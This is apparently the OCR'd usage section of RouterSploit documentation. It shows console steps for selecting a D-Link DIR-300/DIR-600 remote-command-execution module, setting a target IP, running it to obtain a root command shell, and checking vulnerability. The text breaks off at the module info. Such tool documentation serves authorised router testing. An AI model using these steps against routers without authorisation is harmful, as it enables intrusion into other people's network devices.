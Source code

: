 	rsf >

## 1. Exploits

### Pick the module

	rsf > use exploits/
	exploits/2wire/     exploits/asmax/     exploits/asus/      exploits/cisco/     exploits/dlink/     exploits/fortinet/  exploits/juniper/   exploits/linksys/   exploits/multi/     exploits/netgear/
	rsf > use exploits/dlink/dir_300_600_rce
	rsf (D-LINK DIR-300 & DIR-600 RCE) >

You can use the tab key for completion.

### Options

Display module options:

	rsf (D-LINK DIR-300 & DIR-600 RCE) > show options

	Target options:


	   Name       Current settings     Description                                
	   ----       ----------------     -----------                                
	   target                          Target address e.g. http://192.168.1.1     
	   port       80                   Target Port

Set options:

	rsf (D-LINK DIR-300 & DIR-600 RCE) > set target http://192.168.1.1
	[+] {'target': 'http://192.168.1.1'}

### Run module

You can exploit the target by issuing the 'run' or 'exploit' command:

	rsf (D-LINK DIR-300 & DIR-600 RCE) > run
	[+] Target is vulnerable
	[*] Invoking command loop...
	cmd > whoami
	root

It is also possible to check if the target is vulnerable to particular exploit:

	rsf (D-LINK DIR-300 & DIR-600 RCE) > check
	[+] Target is vulnerable

### Info

Display information about exploit:

	rsf (D-LINK DIR-300 & DIR-600 RCE) > show info

	Name:
	D-LINK DIR-300 & DIR-600 RCE
